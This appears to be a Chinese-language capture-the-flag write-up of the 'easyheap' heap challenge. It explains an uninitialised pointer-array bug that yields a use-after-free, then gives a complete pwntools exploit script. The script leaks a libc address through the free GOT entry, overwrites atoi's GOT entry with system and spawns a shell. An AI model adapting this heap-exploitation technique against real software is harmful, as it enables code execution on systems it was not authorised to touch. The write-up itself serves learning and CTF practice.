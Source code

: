 # easyheap

题目一个ELF文件和一个libc.so.6，首先patch一下。然后DUMP了。。不过赛后我又换回老得的ubuntu快照，所以不需要patch了。

**这次看了两题，都是没有输出函数的，。。其实还没怎么做过这种heap题。**

主要解决方案有三种

- 通过got表覆盖来leak，这个比较传统。但是要求不能开PIE(easy heap)
- 通过IO FILE来leak地址（wooden house）
- 不泄露地址，使用低地址爆破（参考house of roman）

比赛时候没找到漏洞点。。没仔细看存放指针的结点，直接错过了漏洞。。不过这个部分其实挺难审的，一点也不easy。

漏洞主要来自对存放分配对象的ptr数组未初始化。

ptr指向一个Node结点，内部杰哥分别是指向data的content和存储数据的size。

```c++
struct Node {
  char *content;
  int size;
};
```

在创建数组的过程中，如果申请超过1024大小的空间，程序在为Node创建空间后却没有对ptr进行初始化。我们申请的Node的地址空间是上一次free Node留下的。由于content中会存有fastbin链（指向另一个free chunk）。那么虽然我们的Node未初始化，这个Node也会指向一个content。此时如果这个content可控，我们也就能实现一个UAF。

```c++
int sub_4008F1()
{
  void **v1; // rbx
  signed int i; // [rsp+8h] [rbp-18h]
  int nbytes; // [rsp+Ch] [rbp-14h]

  for ( i = 0; ptr[i]; ++i )
    ;
  if ( i > 2 )
    return puts("Too many items!");
  ptr[i] = malloc(0x10uLL);
  puts("How long is this message?");
  nbytes = sub_400890();
  if ( nbytes > 1024 ) //如果大于1024，不会对ptr[i]进行初始化
    return puts("Too much size!");
  *((_DWORD *)ptr[i] + 2) = nbytes;
  v1 = (void **)ptr[i];
  *v1 = malloc(nbytes);
  puts("What is the content of the message?");
  read(0, *(void **)ptr[i], (unsigned int)nbytes);
  return puts("Add successfully.");
}
```

***Demo***

实现任意地址（0x603060）写

```python
malloc(0x18,"A"*0x10)
free(0)				#留下content

malloc_large() #未初始化漏洞，获取一个指向free chunk的指针
malloc(0x18,"B"*0x10) #malloc 这个free chunk

edit(0,"C"*0x10+p64(0x603060))#修改新Node的content
edit(1,"DDDD")			#任意地址写
```

因为没开PIE所以直接改GOT表

![CgXZVW](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/CgXZVW.png)

因为程序同时最多拥有三块内存在ptr，所以需要构造三个连续的chunk，先通过后两个chunk进行got表覆盖和地址泄漏（需要free掉第三个chunk），最后在用前两个chunk，完成对atoi函数的写入。

```python
#!/usr/bin/python
from pwn import *

p=process({"./easyheap"})
elf=ELF("./easyheap")
context.log_level='Debug'
gdb.attach(p)

def malloc(size,data):
	p.recvuntil("Your choice:")
	p.sendline(str(1))
	p.recvuntil("How long is this message?")
	p.sendline(str(size))
	p.recvuntil("What is the content of the message?")
	p.sendline(data)

def malloc_large():
	p.recvuntil("Your choice:")
	p.sendline(str(1))
	p.recvuntil("How long is this message?")
	p.sendline(str(1025))


def free(index):
	p.recvuntil("Your choice:")
	p.sendline(str(2))
	p.recvuntil("What is the index of the item to be deleted?")
	p.sendline(str(index))
	
def edit(index,data):
	p.recvuntil("Your choice:")
	p.sendline(str(3))
	p.recvuntil("What is the index of the item to be modified?")
	p.sendline(str(index))
	p.recvuntil("What is the content of the message?")
	p.send(data)

#UAF

malloc(0x18,"A"*0x10)
free(0)
malloc_large()
malloc(0x18,"a"*0x10)
free(1)
malloc_large()
malloc(0x18,"B"*0x10)

edit(1,"C"*0x10+p64(0x602018)) #free_got
edit(2,p64(elf.plt['puts']))

edit(1,"C"*0x10+p64(elf.got['puts']))

free(2) #leak puts

p.recvuntil("\n")
puts_addr=u64(p.recv(6).ljust(8,"\x00"))
offset=0x2a300
system_addr=puts_addr-offset
print "[*]puts="+hex(puts_addr)
print "[*]system="+hex(system_addr)

edit(0,"A"*0x10+p64(elf.got['atoi']))
edit(1,p64(system_addr))

p.recvuntil("Your choice:")
p.sendline("/bin/sh")

p.interactive()
```

![7alh2c](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/7alh2c.png)



***小结一下***

漏洞点：未初始化Node，导致的UAF

利用方面：

- GOT表覆盖atoi来getshell
- 构造三个连着的Node结点（因为ptr限制）

还是代码审计能力太垃圾了。。。诶